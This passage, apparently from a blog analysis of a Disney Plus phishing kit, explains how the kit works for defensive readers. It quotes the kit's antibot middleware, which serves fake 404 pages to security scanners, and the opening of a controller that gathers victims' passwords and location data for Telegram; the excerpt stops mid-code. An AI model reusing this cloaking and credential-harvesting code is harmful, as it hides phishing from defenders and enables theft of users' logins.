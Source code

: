 Suspiciously authored by a git user with the name `Disney Plus`, there is something interesting in the  `app.js` file.

```js
// Bot Detection Middlewares
app.use(antibot);
```

There are good guys crawling the web looking for malicious sites like this. The scammers don't want to be found. While this attacker is not masking their code to subvert static analysis, they are are trying to protect the scam site against dynamic scans. For example if Google is scanning links in the email body in your GMail inbox. 

```js
// antibot.js

const { getClientIp } = require('request-ip');
const { botUAList } = require('../config/botUA');
const { botIPList, botIPRangeList, botIPCIDRRangeList, botIPWildcardRangeList } = require('../config/botIP');
const { botRefList } = require('../config//botRef');

[...]

module.exports = (req, res, next) => {
	const clientUA = req.headers['user-agent'] || req.get('user-agent');
	const clientIP = getClientIp(req);
	const clientRef = req.headers.referer || req.headers.origin;

	if (isBotUA(clientUA) || isBotIP(clientIP) || isBotRef(clientRef)) {
		return res.status(404).type('html').end(`<title>404 Not Found</title><div><h2>Not Found</h2><p>The requested URL ${req.url} was not found on this server.</p></div>`);
	}

	next();
};
```

The files `../config/botUA`, `../config/botRef`, and `../config/botIP` contain huge lists of good guys' 
- ip ranges
- user agent regex strings like `google`, `duckduckbot`, `antivirus`
- referrer regex strings like `^security`, `^safebrowsing`, `^malwarebytes`

The middleware routes any matching requests to an innocuous 404 Not Found page. 

#### `controller.js`

When the request is determined to be not a bot it is handled by the `loginPost` controller:

```js
const { sendMessageFor } = require('simple-telegram-message');
const { botToken, chatId } = require('../config/settings');

[...]

exports.loginPost = async (req, res) => {
	const { userId, password } = req.body;
	
    [...]

	const { ipAddress, Coordinates, City, Region, postalCode, Country, Time, provider, ASN } = iPDetails;

	const userAgent = req.headers['user-agent'];
	const systemLang = req.headers['accept-language'];

	const message =
```